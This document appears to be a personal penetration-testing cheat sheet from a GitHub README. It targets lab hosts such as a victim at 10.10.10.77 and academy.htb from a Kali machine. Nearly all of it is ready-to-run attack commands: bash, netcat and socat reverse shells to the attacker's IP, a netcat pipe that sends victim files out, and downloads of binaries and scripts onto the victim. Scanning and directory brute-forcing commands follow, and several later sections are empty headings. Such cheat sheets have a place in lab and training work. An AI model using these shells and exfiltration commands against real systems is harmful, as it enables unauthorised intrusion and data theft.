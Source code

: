 # Cheat sheet with my popular tools

> Victim host 10.10.10.77 and Kali host 10.10.10.10

![](https://i.pinimg.com/originals/2a/db/1e/2adb1e4dbe67ce0ff39c4b080f015aa3.jpg)

## Useful Commands

### Create web server

* #### With Python

```
python3 -m http.server 8888
``` 

```
python -m SimpleHTTPServer 8888
```

### Upgrade reverse shell

* #### With Socat

*Victim:* 
```
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O socat
chmod +x socat
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.10.10:4444
```
        
*Kali:*
```
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

* #### With Python

*Victim:* 
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

### Send files

* #### With netcat

*Victim:*
```
cat file.txt | nc -q 0 10.10.10.10 4444
```

*Kali:*
```
nc -lvp 4444 > file.txt
```

* #### With web server

*Kali:*
```
python3 -m http.server 8888 
python -m SimpleHTTPServer 8888
```

*Victim:*
```
wget http://10.10.10.10:8888/script.sh -O script.sh
```

* #### With SCP

*Copy from Victim*
```
scp user@10.10.10.77:/home/user/file.txt /home/kali/
```

*Copy to Victim* 
```
scp -r /home/kali/file.txt user@10.10.10.77:/home/user/
```

### Reverse shells

* #### With bash

```
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```

```
/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.28/5555 0>&1'
```

* #### With netcat

```
nc -e /bin/sh 10.10.10.10 4444
```

* #### Listener

```
nc -lvp 4444
```

## Enumeration

* #### Nmap

TCP Scan:

```
nmap -sV -sC -p- 10.10.10.77
```

UDP Scan:

```
nmap -sU -sV -p- 10.10.10.77
```

### If Web Server

Brute dir with extensions

* #### GoBuster

```
gobuster dir -e -u http://academy.htb/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -x .php,txt,htm,html,phtml,js,zip,rar,tar -s 200,302
```

* #### FuFF

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://academy.htb/FUZZ -e php,txt,htm,html,phtml,js,zip,rar,tar -mc 200,302
```

VHOST Discovery

* #### FuFF

```
ffuf -w subdomains-top1million-110000.txt -u https://10.10.10.77/ -H "Host:FUZZ.10.10.10.77"
```

## Privilege Escalation

## Reverse Engineering

## Some Scripts

## References
